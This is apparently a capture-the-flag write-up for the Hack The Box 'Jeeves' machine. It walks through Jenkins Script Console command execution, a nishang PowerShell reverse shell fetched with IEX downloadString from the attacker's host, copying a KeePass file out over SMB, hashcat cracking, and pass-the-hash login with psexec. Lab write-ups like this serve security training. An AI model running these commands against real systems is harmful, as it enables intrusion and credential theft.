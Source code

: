 nmap scan

```
sudo nmap -p- --min-rate 10000 -oA nmap 10.10.10.63
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```

### Enumerating port 80

![image1](/assets/images/htb-jeeves/jeeves1.png)

Everytime I search something I get this error:

![image2](/assets/images/htb-jeeves/jeeves2.png)

But it's just an image, this website does nothing:

![image4](/assets/images/htb-jeeves/jeeves4.png)

Checking the source, you can see that everytime you submit it redirects you to `/error.html`

### Enumerating port 50000

We have this website:

![image4](/assets/images/htb-jeeves/jeeves4.png)

Running gobuster we find this:

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.63:50000/ -t 40
/askjeeves (Status: 302)                                                       
```

Accessing it we have this jenkis page:

![image5](/assets/images/htb-jeeves/jeeves5.png)

Going to *Build Executor Status* then *Master* and there's a `Script Console`:

![image6](/assets/images/htb-jeeves/jeeves6.png)

I'm going to try to ping me back before try to get a reverse shell, for this I'll use:

```
println "ping -n 2 10.10.14.13".execute().text
```

Then set up tcpdump to see if it pings you back:

```
sudo tcpdump -i tun0 icmp
```

Click on the Run button and we have pings back:

```
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:36:42.338287 IP 10.10.10.63 > ubuntu: ICMP echo request, id 1, seq 1, length 40
07:36:42.338303 IP ubuntu > 10.10.10.63: ICMP echo reply, id 1, seq 1, length 40
07:36:43.357758 IP 10.10.10.63 > ubuntu: ICMP echo request, id 1, seq 2, length 40
07:36:43.357773 IP ubuntu > 10.10.10.63: ICMP echo reply, id 1, seq 2, length 40
```

### Getting a reverse shell

Now I'll get a reverse shell I'll use the nishang `Invoke-PowerShellTcp.ps1`:

First I'll add this line at the end of the file:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.13 -Port 9001
```

Start a server:

```
sudo python3 -m http.server 80
```

And the listener:

```
nc -lvnp 9001
```

On the script console write this to download the file and it will execute:

```
get = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/rev.ps1')" """
println get.execute().text
```

And we get the shell back

```
Connection received on 10.10.10.63 49679
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>
```

### Enumerating the system to find a privesc vector

On `C:\Users\kohsuke\documents` we have this `CEH.kdbx` file:

```
PS C:\Users\kohsuke\documents> dir


    Directory: C:\Users\kohsuke\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx
```

I'll transfer it to my machine:

Set up a SMB share:

```
sudo smbserver.py share .
```

And transfer it:

```
PS C:\Users\kohsuke\documents> net use z: \\10.10.14.13\share
The command completed successfully.

PS C:\Users\kohsuke\documents> copy CEH.kdbx z:
```

### Getting the password from the .kdbx file

It's a `.kdbx` file from keepass, I'll use `keepass2john.py` to get the hash:

```
python2 keepass2john.py CEH.kdbx 
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

I'll crack it with hashcat:

```
.\hashcat.exe -m 13400 .\hash.txt .\rockyou.txt
```

And the password is: `moonshine1`, next thing is open the key with keepass2 and use this password:

![image7](/assets/images/htb-jeeves/jeeves7.png)

### Getting information using the .kdbx file as a db on kepass2

We have this:

![image8](/assets/images/htb-jeeves/jeeves8.png)

And check the password of the DC Recovery PWN:

![image9](/assets/images/htb-jeeves/jeeves9.png)

Backup stuff has this hash:

![image10](/assets/images/htb-jeeves/jeeves10.png)

Now I can use `psexec` to login with the hash as administrator:

```
sudo psexec.py administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### Getting the flag

The flag isn't here:

```
c:\Users\Administrator\Desktoptype hm.txt
The flag is elsewhere.  Look deeper.
```

With `dir /r` we can see this:

```
c:\Users\Administrator\Desktop>dir /r
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\Administrator\Desktop

11/08/2017  09:05 AM    <DIR>          .
11/08/2017  09:05 AM    <DIR>          ..
12/24/2017  02:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,498,948,608 bytes free
```

We have this `hm.txt:root.txt:$DATA` file, we can see the content with this command:

```
powershell (Get-Content hm.txt -Stream root.txt)
```

